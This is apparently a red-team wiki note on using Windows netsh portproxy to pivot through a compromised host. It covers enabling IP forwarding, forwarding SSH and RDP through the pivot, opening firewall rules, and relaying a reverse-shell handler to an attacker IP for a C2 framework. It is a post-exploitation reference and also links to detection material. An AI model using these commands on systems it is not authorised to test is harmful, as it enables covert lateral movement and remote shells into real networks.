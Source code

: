 # Living off the Land

## 01 - Usage

> [!IMPORTANT] Conditions
>  [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Host/0xB - Networking/Network Configuration/Packet Forwarding|Packet forwarding]] must be enabled.

```
C:\> reg.exe add [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters /v IPEnableRouter /t REG_DWORD /d 0x1 /f
```

```
PS C:\> Set-NetIPInterface -Forwarding Enabled
```

Both services of `IP Helper` and **IPv6 support** must be enabled. To ensure they're enabled here are the following commands:

```
C:\> reg.exe add "HKLM\SYSTEM\CurrentControlSet\services\iphlpsvc" /v Start /t REG_DWORD /d 2 /f

C:\> sc.exe [\\<IP>] config iphlpsvc start= auto

C:\> net.exe start "IP Helper"

C:\> sc.exe [\\<IP>] start iphlpsvc
```

> [!NOTE] Elevated Privileges is Required
> `netsh interface portproxy` must be executed with administrative rights.

```
C:\> netsh.exe interface portproxy add <v4tov4 | v4tov6 | v6tov4 | v6tov6> listenport=<LPORT> listenaddress=<LHOST> connectport=<FPORT> connectaddress=<FHOST>
```

Display port forwarding rules.

```
C:\> netsh.exe interface portproxy show <all | v4tov4 | v4tov6 | v6tov4 | v6tov6>
```

Delete port forwarding rule.

```
C:\> netsh.exe interface portproxy delete v4tov4 listenaddress=<LHOST> listenport=<LPORT>
```

Flush port forwarding rules.

```
C:\> netsh.exe interface portproxy reset [ipv4 | ipv6]
```

## 02 - Scenarios

### 2.1 - Bind SSH Port

Grab the SSH port number

```
C:\> netsh.exe interface portproxy add v4tov4 listenport=4242 listenaddress=<pivot_IP | 0.0.0.0> connectport=22 connectaddress=192.168.0.101
```

In command prompt

```
C:\> netstat.exe -anp TCP | find.exe "4242"

C:\> tasklist.exe | findstr.exe :4242
```

In powershell

```
PS C:\> Test-NetConnection -ComputerName localhost -Port 4242
```

Add a firewall rule

```
C:\> netsh.exe advfirewall firewall add rule name="Port Forward SSH" protocol=tcp dir=in localip=<pivot_IP> localport=4242 action=allow
```

Remotely authenticate SSH server

```
$ ssh <username>@<pivot_IP> -p 4242
```

### 2.2 - Bind RDP Port

Grab the RDP port number

```
C:\> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=<pivot_IP | 0.0.0.0> connectport=3389 connectaddress=<RDP_IP>
```

In command prompt

```
C:\> netstat.exe -na | findstr.exe "8080"

C:\> tasklist.exe | findstr.exe :8080
```

In powershell

```
PS C:\> Test-NetConnection -ComputerName localhost -Port 8080
```

Add a firewall rule

```
C:\> netsh.exe advfirewall firewall add rule name="Port Forward RDP" protocol=tcp dir=in localip=<pivot_IP> localport=8080 action=allow
```

Remotely authenticate RDP server

```
$ xfreerdp /v:<pivot_IP>:8080 /u:<username> /p:<password> /sec:<rdp | tls | nla>
```

### 2.3 - Remote Port Forwarding Reverse Shells

Port forward the reverse shell handler.

```
C:\> netsh.exe interface portproxy add v4tov4 listenport=8443 listenaddress=0.0.0.0 connectport=8443 connectaddress=<attacker_IP>
```

Check for 8443 listening port in command prompt.

```
C:\> netstat.exe -na | findstr.exe "8443"

C:\> tasklist.exe | findstr.exe :8443
```

Check for 8443 listening port in powershell.

```
PS C:\> Test-NetConnection -ComputerName localhost -Port 8443
```

Add a firewall rule

```
C:\> netsh.exe advfirewall firewall add rule name="Port Forward Payload" protocol=tcp dir=in localip=<compromised_pivot_IP> localport=8443 action=allow
```

Then you can launch a reverse shell handler with any C2 frameworks. Just specify the compromised system's IP and PORT.

---
## References

### Backlinks

- [[Rinetd]]

### InternalAllTheThings

- [InternalAllTheThings: Network Pivoting Techniques](https://swisskyrepo.github.io/InternalAllTheThings/redteam/pivoting/network-pivoting-techniques/)

### Slayer Labs

- [Slayer Labs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [Slayer Labs: Kerberos Double-Hop Workarounds](https://posts.slayerlabs.com/double-hop/)

### Shell is Coming

- [Shell is coming: Metasploit Chain of Proxies](https://www.shelliscoming.com/2013/08/metasploit-chain-of-proxies-with.html)

### DFIR Notes

- [DFIR Notes: PortProxy Detection](https://www.dfirnotes.net/portproxy_detection/)
